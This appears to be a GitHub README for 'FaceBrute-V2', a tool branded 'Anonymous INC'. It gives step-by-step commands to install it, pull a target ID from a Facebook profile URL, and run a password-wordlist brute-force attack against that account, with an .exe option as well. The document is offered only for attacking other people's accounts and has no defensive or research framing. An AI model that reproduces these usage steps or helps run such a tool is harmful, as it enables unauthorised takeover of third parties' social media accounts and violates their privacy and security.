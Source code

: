 # FaceBrute-V2
== A N O N Y M O U S  I N C ==

## Get Started
Install python executable installer first
```
> https://www.python.org/downloads/release/python-373/
```

## Clone Repo
```
> git clone https://github.com/IyoRTML/FaceBrute-V2.git
```

## Run in Command Line
```
> python get-pip.py
> pip install requests
> pip install mechanize
> python main.py -g https://www.facebook.com/Username
> python main.py -t [This Target ID] -w passwords.txt
```

## Run in FaceBrute.EXE
```
> Double click FaceBrute.exe
```

![Anonymous INC](https://raw.githubusercontent.com/IyoRTML/FaceBrute-V2/main/img/facebruteanonymousinc.jpg)
